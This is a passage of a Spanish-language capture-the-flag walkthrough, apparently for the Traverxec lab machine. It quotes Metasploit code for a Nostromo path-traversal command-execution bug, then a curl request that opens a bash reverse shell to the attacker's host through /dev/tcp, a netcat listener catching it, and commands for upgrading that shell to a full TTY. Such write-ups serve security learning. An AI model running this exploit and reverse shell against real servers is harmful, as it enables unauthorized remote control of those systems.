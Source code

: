 ```shell
    inet 10.10.10.165/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
```

Alternativamente, podemos hacerlo manual, vamos a leer código de metasploit:
```ruby
def execute_command(cmd, opts = {})
send_request_cgi({
  'method'  => 'POST',
  'uri'     => normalize_uri(target_uri.path, '/.%0d./.%0d./.%0d./.%0d./bin/sh'),
  'headers' => {'Content-Length:' => '1'},
  'data'    => "echo\necho\n#{cmd} 2>&1"
  }
)
end
```

Dado que está haciendo un recorrido de directorio y algo de codificación de la URL probablemente para omitir algunos filtros, y además esta haciandolo en una solicitud POST, podemos intentar hacer esto con curl:

```shell
❯ curl -s -X POST 'http://10.10.10.165/.%0d./.%0d./.%0d./bin/sh' -d '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.16.6/53 0>&1"'
```

Igualmente podemos recibir una shell:
```shell
❯ sudo nc -lnvp 53
listening on [any] 53 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.165] 49166
bash: cannot set terminal process group (441): Inappropriate ioctl for device
bash: no job control in this shell
www-data@traverxec:/usr/bin$
```

## Shell Completamente Interactiva

Podemos habilitar un shell TTY / PTY completo con los siguientes comandos.

En un shell inverso, iniciamos una shell bash \ (elija uno de los siguientes, la idea es generar un shell bash \):

```text
script /dev/null -c bash
python -c 'import pty; pty.spawn("/bin/bash")'
echo os.system('/bin/bash')
/bin/bash -i
perl —e 'exec "/bin/bash";'
```

Presionamos Ctrl + Z para salir de la shell y dejarlo ejecutándose en segundo plano, luego en nuestra consola configuramos la TTY con:

```text
stty raw -echo; fg
```
